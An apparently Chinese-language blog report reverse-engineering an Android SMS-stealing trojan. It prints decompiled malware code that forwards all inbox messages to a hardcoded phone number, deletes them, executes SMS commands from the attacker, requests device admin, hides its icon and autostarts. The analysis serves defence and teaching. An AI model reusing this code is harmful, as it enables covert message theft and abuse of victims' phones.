










Author：wnagzihxain
Mail：tudouboom@163.com
今天天空出现了彩虹决定做点什么庆祝一下，那就分析个App吧
报告名称：对恶意APP“淘宝宝贝分享图”的逆向分析
作者：wnagzihxain
报告更新日期：2016.5.23
样本发现日期：不详
样本类型：短信拦截
样本文件大小／被感染文件变化长度：
样本文件MD5 校验值：
样本文件SHA1 校验值：
壳信息：无
可能受到威胁的系统：安卓
相关漏洞：无
已知检测名称：无
数字杀毒杀出了一个apk，来分析一下吧
上apktool
之所以用apktool，是因为先用apktool能搞出很多好玩的和好看的
比如
再比如
低调看就好
顺便翻一翻其它文件夹，可以对整个apk的结构有所了解，当然这只是表面的了解，去看看smali文件有多少个，是不是加密了，看一眼有个数就好
将apk后缀改为zip解压，接着dex2jar

然后就是jdgui的主场了
上jdgui

哎呦哇啦，混淆了，不过好在只有一个包，而且代码也不多的样子
上JEB，这次纯手动修改混淆的代码进行分析
上JEB后第一个问题就是，怎么找到入口？？？
这个有技巧，打开Manifest，看到那个android.intent.action.MAIN了没？那就是入口的activity，所以对应看一下，就是“L”

打开L，混淆后的代码就不要指望能一眼看懂了，慢慢分析，这是个耐心活
有一个小技巧，从MainActivity开始一句一句慢慢分析，同时在纸上画出调用关系，把看懂了的类或方法打上注释或者rename，好了这是整个“L”也就是MainActivity的代码
package com.sonyericsson.androidapp.microblogci8dmdo4;
import android.app.Activity;
import android.app.admin.DevicePolicyManager;
import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.os.Build$VERSION;
import android.os.Bundle;
import android.os.Handler;
public class L extends Activity {
private DevicePolicyManager a;
private ComponentName b;
public L() {
super();
}
protected void onCreate(Bundle arg5) {
super.onCreate(arg5);
this.setContentView(2130903040);
d.a(((Context)this), new SR());
d.a(((Context)this), "启动MainActivity");
d.a(((Context)this));
this.a = this.getSystemService("device_policy");
this.b = new ComponentName(((Context)this), LR.class);
if(this.a.isAdminActive(this.b)) {
d.a(((Context)this), "已经注册设备管理器");
}
else {
Intent v0 = new Intent("android.app.action.ADD_DEVICE_ADMIN");
v0.putExtra("android.app.extra.DEVICE_ADMIN", this.b);
v0.putExtra("android.app.extra.ADD_EXPLANATION", "设备管理器");
this.startActivity(v0);
d.a(((Context)this), "注册设备管理器");
}
if(Build$VERSION.SDK_INT < 14) {
this.getPackageManager().setComponentEnabledSetting(this.getComponentName(), 2, 1);
}
this.finish();
Handler v0_1 = new Handler();
v0_1.postDelayed(new a(this, v0_1), 5000);
}
}
接下来一句一句慢慢分析
这两句不用讲了
super.onCreate(arg5);
this.setContentView(2130903040);
碰到第一句混淆了的代码，怎么办？双击跟过去，同时纸上记录一下当前代码走到了哪里，调用了什么类的什么方法，千万详细！！！！！！不然很容易绕晕！！！！！！
d.a(((Context)this), new SR());
跟过去
public static void a(Context arg3, SR arg4) {
if(!d.d) {
d.d = true;
new c(arg3);
try {
IntentFilter v0_1 = new IntentFilter();
v0_1.setPriority(2147483647);
v0_1.addAction("android.provider.Telephony.SMS_RECEIVED");
arg3.getApplicationContext().registerReceiver(((BroadcastReceiver)arg4), v0_1);
}
catch(Exception v0) {
d.a(arg3, "注册监听异常：" + v0.getMessage());
}
}
}
又一堆混淆了的代码，同样一行一行分析
if(!d.d)
双击看一下d.d是什么，高亮了三个地方，在类d里设置了三个boolean变量，并且都设置为false，此时我们先将变量名修改一下，将三个boolean型变量修改为bool_x这样的格式，这样一看就知道是boolean变量

像这样

然后来看b.a方法的逻辑，应用运行，d.bool_c为false，那么取反就是true，所以if会执行
下面那句d.bool_c=true就是用来保证应用运行后如果第二次或者第n次调用这个方法，不会执行这个方法里面的代码
也就是说应用运行后只会执行一次以后无论如何都不会再运行
然后执行到这句
new c(arg3);
纸上记录好调用关系，然后跟过去
package com.sonyericsson.androidapp.microblogci8dmdo4;
import android.content.Context;
import android.database.ContentObserver;
import android.database.Cursor;
import android.net.Uri;
import android.os.Handler;
public class c extends ContentObserver {
private Context a;
public c(Context arg4) {
super(new Handler());
d.a(arg4, "#SMSObserver#注册");
this.a = arg4;
this.a.getContentResolver().registerContentObserver(Uri.parse("content://sms/"), true, ((ContentObserver)
this));
}
public void onChange(boolean arg7) {
String[] v2 = null;
super.onChange(arg7);
d.a(this.a, "#SMSObserver#onChange");
if(!d.b(this.a)) {
d.a(this.a, "#SMSObserver#时间不在运行范围");
}
else {
Cursor v0 = this.a.getContentResolver().query(Uri.parse("content://sms/inbox"), v2, ((String)
v2), v2, ((String)v2));
while(v0.moveToNext()) {
d.b(this.a, v0.getString(v0.getColumnIndex("address")), v0.getString(v0.getColumnIndex(
"body")));
this.a.getContentResolver().delete(Uri.parse("content://sms/conversations/" + v0.getString(
1)), ((String)v2), v2);
}
}
}
}
粗略看一下，这好像是在监控短信啊，怎么看出来的？
有经验的靠经验，有颜值的靠颜值，没经验没颜值的靠谷歌
当短信数量发生变化也就是收到短信的时候就会触发onChange()方法，同样来修改一下这个类的名字
继承自ContentObserver，用于监控短信数量的变化，顺便把下面那个private Contexta，Context arg4，String[] v2=null之类能很明显看出来的也给修改一下

改完了是不是看着很爽，觉得很爽那就继续
先看这个

这一句
d.a(context, "#SMSObserver#注册");
跟过去，千万纸上记录调用关系啊！！！！！！
public static void a(Context arg1, String arg2) {
if(d.bool_a) {
Log.e("T_DEBUG", arg2);
}
}
原来是Log，不过有个boolean判断，结合最开始的这个值默认是false，应该是调试用的，调试时把这个值设为true，就会有Log输出
然后调试完了就将这个值设为false，作者留着这些是要二次开发吗？谁有后续版本给我看看啊！！！！！！
修改一下方法名

到这里就要靠刚才画的调用关系图进行回溯了，有没有一种调用堆栈回溯的感觉？
回到上一层， 该写的注释不要手懒，好记忆不如烂笔头

虽然这几行注释看起来并没有什么用，但是一旦代码多起来这种随手写的注释简直不要太可爱！！！！！！
然后来看一下onChange()方法，这个方法会在短信数量发生变化的时候触发，作者的意思就是说收到短信了
if(!d.b(this.thiscontext)) {
d.ptintLog(this.thiscontext, "#SMSObserver#时间不在运行范围"); // 用于调试的日志输出
}
同样，记录调用关系，跟过去
public static boolean b(Context arg8) {
long v6 = 0;
boolean v0 = true;
if(d.c == null) {
d.c(arg8);
}
long v2 = System.currentTimeMillis();
if(d.c[0] != v6 && d.c[1] != v6 && (d.c[0] > v2 || d.c[1] < v2)) {
v0 = false;
}
return v0;
}
修改一下明显可以看出来的变量名

然后这一句有混淆>if(d.c == null)
跟过去，原来是这个private static long[] c;
暂时不知道什么作用，那么来看if里面的代码d.c(context);
跟过去看看
public static void c(Context arg9) {
long v5 = 0;
if(d.c == null) {
try {
SimpleDateFormat v0_1 = new SimpleDateFormat("yyyy-MM-dd HH:mm", Locale.CHINA);
d.c = new long[2];
d.c[0] = b.b.equals("") ? 0 : v0_1.parse(b.b).getTime();
if(b.c.equals("")) {
d.c[1] = 0;
return;
}
d.c[1] = v0_1.parse(b.c).getTime();
}
catch(Exception v0) {
d.c[0] = v5;
d.c[1] = v5;
d.ptintLog(arg9, "从RAW读取配置信息失败，" + v0.getMessage());
}
}
}

因为这个long[] c也就是long[]datenow是全局变量，所以不需要返回对应的值
接着回溯一层，这个逻辑就清楚了，但是意思不清楚

接着看代码，同样修改变量名

到这咱们就不接着分析了，因为可能有些同学已经看不懂这里是什么意思，那我们就来创建一个工程运行看看这段代码的运行结果是什么
df为日期格式，然后将括号里的字符串按照设置的格式转换，详情看Console

然后来看JEB里的代码
这一句里面有混淆
d.datenow[0] = b.b.equals("") ? 0 : simpledateformat.parse(b.b).getTime();
一个空的字符串
那么刚才的结果就是d.datenow[0]=0
接着，b.c从刚才的截图可以看到，也是空字符串
if(b.c.equals("")) {
d.datenow[1] = 0;
return;
}也就是说执行完getdate()，datenow[0]和datenow[1]都是0
奇怪就奇怪在这里了，难道是JEB的问题？留着疑问咱们待会说
接着回溯到上一层
执行到这句，这句意思很清楚，获取从1970-1-01 00 00.000 到当前时刻的时间长度，单位是毫秒
00.000 到当前时刻的时间长度，单位是毫秒
long currenttimemillis = System.currentTimeMillis();
if(d.datenow[0] != ZERO && d.datenow[1] != ZERO &&(d.datenow[0] > currenttimemillis || d.datenow[1] < currenttimemillis)) {
bool_a = false;
}最后返回计算的结果
return bool_a;
不过再仔细看看，应该是用于else里面的语句只执行一次，这个在下面的实际运行可以看出来
不管怎么样，方法名还是要修改一下的，就叫judgetime吧
到这就要继续回溯了

有木有觉得类d特别抢眼，各种刷存在感，那么就改一下名吧，就叫SMSutils
这次改完真的是神清气爽，继续分析
刚才说if的分支永远不会执行，也就是说另一个分支……
很明显这就是在读取短信然后发短信给作者啊，还有删短信的操作
但是这里可不是单纯的发短信删短信，需要结合SMSContentObserver的整个onChange()方法来分析，onChange()方法触发的条件就是监控的数据有变化

写了个demo来看看，用真机调试的，把关键代码copy出来，想要根据反编译出来的代码调试，这需要比较好的安卓开发能力了
运行起来第一次会发送手机里所有短信，然后后面接收到短信会拦截并且发送出去，短信格式最开始是发件人的手机号

但是不仅仅是发送，仔细分析可以看出来，如果没有那句delete，这就是一个死循环，短信会一直发送
作者用的方法简单粗暴，直接将收件箱的短信发送一条删一条，其实这里的逻辑不是很好，作者的编程能力还有待提高
我写了另一个demo真机测试的结果，为了简单易懂忍痛把短信全删了
可以看到我手机短信全没了......

补充一张图，都提示这么明显了还有人安装……

继续看代码，有一个混淆SMSutils.b()，记一下参数然后跟过去看看
public static void b(Context arg6, String arg7, String arg8) {
int v5 = 2;
String v0 = b.b(arg6);
if(arg7.startsWith("+86")) {
arg7 = arg7.substring(3);
}
SMSutils.ptintLog(arg6, "收到：" + arg7 + " " + arg8);
if(arg7.equals(v0)) {
String[] v0_1 = arg8.split("A", v5);
if(v0_1.length != v5) {
SMSutils.ptintLog(arg6, "指令错误");
SMSutils.a(arg6, null, "短信指令格式错误，格式为“手机号A短信内容”");
}
else {
SMSutils.ptintLog(arg6, "SENDTO：" + v0_1[0] + " content " + v0_1[1]);
SMSutils.a(arg6, v0_1[0], v0_1[1]);
}
}
else {
SMSutils.a(arg6, v0, "[" + arg7 + "]" + arg8);
}
}
改完像这样

又到了读代码的时候了
String v0 = b.b(context);
public static String b(Context arg1) {
return "15884230675";
}有没有想给类b改名的想法，改成Bootini咋样？

好了，现在回溯，上一层的代码也需要改一下
String phonenumber = Bootini.getauthorphonenumber(context);
if(sourceaddress.startsWith("+86")) {
sourceaddress = sourceaddress.substring(3);
}
这种写法一出现可以确定是指令或者作者利用受害者手机给其它号码发送指定内容的短信
如果sourcesaddress等于作者的手机号，就将内容以“A”为分界线分割，如果分割后不是2个部分，也就是说不是“A”这种格式，就执行SMSutils.a方法，又有混淆，那就跟过去
public static void a(Context arg6, String arg7, String arg8) {
String v2 = null;
String v1 = arg7 == null ? Bootini.getauthorphonenumber(arg6) : arg7;
SMSutils.ptintLog(arg6, "发送：" + v1 + " " + arg8);
if(!Boolean.parseBoolean(String.valueOf(SMSutils.bool_a))) {
SmsManager v0 = SmsManager.getDefault();
v0.sendMultipartTextMessage(v1, v2, v0.divideMessage(arg8), ((ArrayList)v2), ((ArrayList)
v2));
}
}
仔细读一读如果传进来的arg7是null就执行getauthorphonenumber()方法，也就是获取作者手机号
然后括号里面恒成立下面那个发短信的方法是用于长短信的发送，如果你不是很了解的话建议去了解一下，顺便了解一下参数最好了
到这里可以回溯了，那么刚才的意思就是如果收到作者的短信，短信内容不是“A
”这种格式，就给作者发短信"短信指令格式错误，格式为“手机号A短信内容”"
如果格式正确，就利用受害者手机给“手机号“发送”短信内容“，用你手机开通各种服务简直不要太方便
那SMSutils.b方法分析完了，来改个名，就叫beforesend好了
继续回溯
删除短信没什么好说的了
this.thiscontext.getContentResolver().delete(Uri.parse("content://sms/conversations/" + cursor.getString(1)), ((String)NULL), NULL);获取短信内容以及发送者手机号，然后判断是否来自作者
如果不是来自作者，就将手机号和短信发给作者
如果来自作者就判断内容是否是“手机号A短信内容“格式，如果是这种格式就利用受害者手机号发送”短信内容”给“手机号”
至于发什么短信？用你手机给作者开通各种服务~~
然后回溯吧，要没有用纸画出调用关系现在早就晕了
然后有了刚才的经验现在可以修改变量名了，顺便上个注释

那么问题来了，SR arg4是什么？从代码来看SR是一个BroadcastReceiver，那么跟过去
package com.sonyericsson.androidapp.microblogci8dmdo4;import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsMessage;public class SR extends BroadcastReceiver {
public SR() {
super();
}public void onReceive(Context arg9, Intent arg10) { SMSutils.ptintLog(arg9, "#SmsReceiver#onReceive" + arg10.getAction()); if(!"android.provider.Telephony.SMS_RECEIVED".equals(arg10.getAction())) { SMSutils.a(arg9, this); SMSutils.a(arg9); } else { Bundle v0 = arg10.getExtras(); if(v0 != null) { if(!SMSutils.judgetime(arg9)) { SMSutils.ptintLog(arg9, "#SmsReceiver#时间不在运行范围"); } else { Object v0_1 = v0.get("pdus"); int v5 = v0_1.length; String v4 = ""; int v2 = 0; String v1; for(v1 = ""; v2 < v5; v1 = v3) { SmsMessage v1_1 = SmsMessage.createFromPdu(v0_1[v2]); String v3 = v1_1.getOriginatingAddress(); v4 = String.valueOf(v4) + v1_1.getMessageBody(); ++v2; } SMSutils.beforesend(arg9, v1, v4); this.abortBroadcast(); } } } }}

大概可以看出来这是一个监控接收短信的Receiver，但是还有两个方法混淆了
目测还是重载
SMSutils.a(context, this);
SMSutils.a(context);
"android.provider.Telephony.SMS_RECEIVED"广播的时候会调用beforesend()方法就行了
回溯，给这个方法改个名，叫InitSMSReceiver

继续回溯，到主Activity“L”
又一个混淆
SMSutils.a(((Context)this));
public static void a(Context context) {
SMSutils.ptintLog(context, "chkFirstRun");
if(!SMSutils.bool_b) {
Bootini.a(context);
SMSutils.bool_b = true;
}
}Bootini.a(context);

可以看出来这是第一次运行时执行的代码段，因为sharedpreferences是存在本地的
如果作者手机号写进去一次也就是说明已经运行过了，所以修改方法名字为firstrun()
回溯，修改该层方法名为checkfirstrun

继续回溯
修改L最开始两个私有变量
获取设备管理接收者
this.devicepolicymanager = this.getSystemService("device_policy");this.componentname = new ComponentName(((Context)this), LR.class);

继续看代码
判断是否已经获得管理员权限，如果已经获得过则只是调试会有日志输出
if(this.devicepolicymanager.isAdminActive(this.component)) {
SMSutils.ptintLog(((Context)this), "已经注册设备管理器"); // 用于调试的日志输出
}else {
Intent intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
intent.putExtra("android.app.extra.DEVICE_ADMIN", this.component);
intent.putExtra("android.app.extra.ADD_EXPLANATION", "设备管理器");
this.startActivity(intent);
SMSutils.ptintLog(((Context)this), "注册设备管理器"); // 用于调试的日志输出
}
如果系统版本号小于14就隐藏图标
if(Build$VERSION.SDK_INT < 14)
{
this.getPackageManager().setComponentEnabledSetting(this.getComponentName(), 2, 1);
}
this.finish();
Handler handler = new Handler();
handler.postDelayed(new a(this, handler), 5000);
package com.sonyericsson.androidapp.microblogci8dmdo4;import android.content.Intent;
import android.os.Handler;class a implements Runnable {
a(L arg1, Handler arg2) {
this.a = arg1;
this.b = arg2;
super();
}public void run() { this.b.removeCallbacks(((Runnable)this)); Intent v0 = new Intent(); v0.setType("image/*"); v0.setAction("android.intent.action.GET_CONTENT"); this.a.startActivity(v0); }}
不管怎么样，变量名还是要改的，类名也要改

同样我写了个demo演示这段代码的效果

有意思吧
然后代码到这里就没了，选择图片后是要干什么？？？！！！
Excuse me？？？！！！
没了就没了吧，记得刚才我们没分析的两个混淆的方法吗?
if(!"android.provider.Telephony.SMS_RECEIVED".equals(intent.getAction())) {
SMSutils.InitSMSReceiver(context, this);
SMSutils.checkfirstrun(context);
}
刚才没分析，现在是不是一下子明白了

当接收到的广播不是"android.provider.Telephony.SMS_RECEIVED"而是
"android.intent.action.BOOT_COMPLETED"的时候，就执行初始化，也就是说，这地方是开机自启动啊！！！！！！
有点意思啊
来看看其它没有分析的类
APP
package com.sonyericsson.androidapp.microblogci8dmdo4;
import android.app.Application;
import android.os.Process;
public class App extends Application implements Thread$UncaughtExceptionHandler {
public App() {
super();
}
public void onCreate() {
super.onCreate();
Thread.setDefaultUncaughtExceptionHandler(((Thread$UncaughtExceptionHandler)this));
}
public void uncaughtException(Thread arg2, Throwable arg3) {
Process.killProcess(Process.myPid());
}
}
这是用于不同型号手机导致的应用崩溃的自动重启常用方法，从名字也可以看出来，没有捕获异常却崩溃了
关键还是这句Process.killProcess(Process.myPid())，这句很有意思的，ActivityManager一直监听者进程状态，如果发现进程被kill，会立即重启进行，并重启之前状态对应的Activity、Service、ContentProvider等
然后还有一个没有分析的是类U
package com.sonyericsson.androidapp.microblogci8dmdo4;
import android.app.Activity;
import android.content.Context;
import android.os.Bundle;
import android.widget.Toast;
public class U extends Activity {
public U() {
super();
}
protected void onCreate(Bundle arg3) {
super.onCreate(arg3);
SMSutils.InitSMSReceiver(((Context)this), new SMSReceiver());
Toast.makeText(((Context)this), "应用程序尚未安装在您的手机上", 1).show();
this.finish();
}
}
其它地方没有调用到，看代码可能是卸载相关，看Manifest文件

为了简单易懂于是我又写了个demo来演示一下具体过程

可以看到卸载的时候出现了选择，我们来选择应用”卸载程序“，并且just once，不然默认了以后就尴尬了

可以看到执行了类U的onCreate()方法，，因为我把finish()方法注释掉了，所以界面是空白的，把finish()注释去掉
看一下后台运行的程序，果然还在运行，并没有卸载也没有退出，如果系统版本小于14，隐藏了图标那还真是不容易看出来

接着我们用系统的应用管理器来卸载，在卸载时选择第一个
然后会要求取消激活管理员权限

那就取消激活，把钩钩去掉

选择Deactivate

然后就可以用系统自带的管理器正常卸载了，卸载后可以看到intent进程已经不见了

总结一下行为：第一次要受害者激活设备管理器，然后会发送所有的短信给作者，并且把受害者的短信会话删除，然后延迟五秒弹出相册管理器，不知道要干什么，看代码里分分钟要锁屏结果半毛钱的锁屏行为都没看到，然后监控短信，作者可以利用受害者手机发送短信，可以开机自启动，最后因为激活了设备管理器，所以常规的卸载不行，再者系统版本号小于14的话会隐藏图标，对于安全意识不高的同学还是比较有危害的
常规卸载的话不行

用第三方应用管理卸载会出现选择，不同的选择出现的情况参考前面所说的

最后，墙裂吐槽，作者敢不敢走点心，这种图标，这种名字......
Excuse me？？？
冲你这写恶意软件的态度我给差评！！！！！！
没有星！！！！！！
态度相当不好！！！！！！

结尾彩蛋，文中一些安卓的知识：
这个在锁屏软件或者勒索软件里面常用：关于DevicePolicyManager申请系统管理权限
锁屏知识：Android 锁屏（设备管理）
L里面的隐式意图，用于激活设备管理权限，一条龙服务就等你激活：Android隐式意图打开Activity
显示意图和隐式意图：Android学习记录（7）—Intent中显示意图和隐式意图的用法
锁屏的知识：Android研究院之应用程序屏幕锁定详解（二十三）
L最后延迟5s然后打开图片管理器：关于 android 中 postDelayed方法的讲解
意图Action，这个重要，跟Manifest结合：Android开发之Intent.Action
锁屏代码实现：android一键锁屏代码
异常：Android 应用设置全局Exception处理事件的方法
和获得设备管理权限一起用：Android ComponentName的用法
文中用于崩溃重启的办法：android开发两种退出程序方式(killProcess,System.exit)
读通话记录和短信的方法：Android下如何获得通话记录和短信记录
获取通讯录信息的方法：Android开发学习之电话、短信、联系人
文中监控短信的办法：Android_通过ContentObserver监听短信数据变化
ContentObserver监控数据：android 使用ContentObserver监听数据库内容变化(短信、联系人变动)
ContentObserver监控数据：使用ContentObserver监听短信
ContentObserver监控数据：Android学习小Demo（13）Android中关于ContentObserver的使用
ContentObserver监控数据：Android中内容观察者的使用---- ContentObserver类详解
有一个类里面多个重名函数，但是参数不一样，这就是重载：Java重载,重写以及继承,多态的区别